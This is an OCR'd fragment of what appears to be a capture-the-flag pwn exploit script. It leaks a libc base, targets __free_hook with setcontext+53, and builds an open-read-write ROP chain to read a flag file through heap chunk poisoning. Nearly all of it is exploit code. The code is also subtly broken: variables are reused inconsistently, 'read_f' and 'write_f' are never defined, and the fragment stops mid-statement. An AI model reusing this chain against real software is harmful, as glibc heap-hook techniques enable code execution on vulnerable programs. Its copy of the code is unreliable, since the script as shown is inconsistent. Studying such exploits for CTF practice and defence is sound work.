```python
    add(0x30)

    str = p64(0)*4+p64(0x00000000ff000000)
    edit(str)
    delete()
    show()
    libc = u64(ru("\n").ljust(8, b"\x00"))
    libc_base = libc-0x70-libc.sym["__malloc_hook"]
    setcontext = libc_base+libc.sym["setcontext"]+53
    free_hook = libc_base+libc.sym["__free_hook"]
    print("libc base: ", hex(libc_base))
    print("setcontext_53: ", hex(setcontext))
    print("free_hook: ", hex(free_hook))

    flag_addr = heap_base+0x2000

    pop_rax_ret = base+0x000000000001ced0
    pop_rdi_ret = base+0x000000000002144f
    pop_rsi_ret = base+0x0000000000021e22
    pop_rdx_ret = base+0x0000000000001b96
    read = base+libc.sym["read"]
    write = base+libc.sym["write"]
    syscall = read_f+0xf

    orw = p64(pop_rdi_ret)+p64(flag_addr)
    orw += p64(pop_rsi_ret)+p64(0)
    orw += p64(pop_rax_ret)+p64(2)
    orw += p64(syscall)
    orw += p64(pop_rdi_ret)+p64(3)
    orw += p64(pop_rsi_ret)+p64(flag_addr)
    orw += p64(pop_rdx_ret)+p64(0x30)
    orw += p64(read_f)
    orw += p64(pop_rdi_ret)+p64(1)
    orw += p64(pop_rsi_ret)+p64(flag_addr)
    orw += p64(pop_rdx_ret)+p64(0x30)
    orw += p64(write_f)

    add(0x48)
    edit(p64(0)*9)
    for i in range(5):
        add(0x10)
    add(0x18)
    edit(p64(heap_base+0x50))
    add(0x38)

    orw_addr = heap_base+0x1000

    payload = p64(free_hook)
    payload += p64(heap_base+0x2000)
    payload += p64(heap_base+0x20A0)
    payload += p64(heap_base+0x2000)
    payload += p64(orw_addr+0x60) + p64(orw_addr)
    payload += p64(0)
    edit(payload)

    add(0x10)
    edit(p64(setcontext))

    add(0x20)
    edit("./flag\x00")

    add(0x30)
    pl = p64(orw_addr) + p64(pop_rdi_ret+1)
```